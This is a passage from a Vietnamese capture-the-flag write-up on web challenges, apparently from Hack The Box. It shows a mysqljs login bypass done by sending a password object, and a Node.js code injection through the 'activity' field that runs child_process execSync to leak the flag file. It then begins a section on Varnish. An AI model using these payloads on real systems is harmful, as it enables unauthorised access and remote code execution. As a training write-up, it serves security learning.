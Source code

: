 Dockerfile cho biết flag được nằm ở thư mục root => cần RCE để đọc flag. Điều kiện này có thể thực hiện được vì đã có lỗi Code Injection.

Chú ý thì thấy được MySQL được sử dụng, vậy nhớ đến 1 bài viết có phân tích về một lỗ hổng SQL Injection về prepared statement, lỗ hổng này chỉ tồn tại trong MySQL NodeJS. Tham khảo [mysqljs](https://maxwelldulin.com/BlogPost?post=9185867776)

### Tóm lại
- Sử dụng SQL Injection trong thư viện MySQl của NodeJS để thực hiện bypass việc login.
- Escape và injection 1 đoạn code trong tham số `activity` để RCE.

### Exploit
Bypass login
```
POST /api/login HTTP/1.1
Host: localhost:1337
Content-Length: 46
Content-Type: application/json
Connection: close

{"username":"admin","password":{"password":1}}
```
Code Injection
```
POST /api/activity HTTP/1.1
Host: localhost:1337
Content-Length: 156
Content-Type: application/json
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjUzMTI1MDUzfQ.eVI31ZS4G_sKykUMsjGXNGi8HIQBq_sORrIg0RsyntA
Connection: close

{"activity":"'+process.mainModule.require('child_process').execSync('cat /flag.txt > /app/static/flag.txt')+'","health":"60","weight":"42","happiness":"50"}
```
Truy cập `/static/flag.txt` để đọc flag.

**Flag**: `HTB{3sc4p3d_bec0z_n0_typ3_ch3ck5}`

## Genesis Wallet & Genesis Wallet's Revenge
Chúng ta cùng nhìn qua `Dockerfile` để có thể hình dung được bài này được setup như thế nào và sử dụng thư viện, service gì.

![Dockerfile](https://i.imgur.com/0JfirL0.png)

- Cài đặt trình duyệt Google Chrome.
- Cài đặt Varnish.
- Nội dung file `/etc/varnish/secret` được lấy ngẫu nhiên từ file `/dev/urandom`.
- Copy các file config vào đúng vị trí để các service sử dụng.

### Varnish là gì?
Varnish là một "web application accelerator" đóng vai trò là một reverse proxy làm nhiệm vụ caching các HTTP requests nhằm tăng tốc độ truyền tải dữ liệu từ server đến client nhanh chóng hơn.

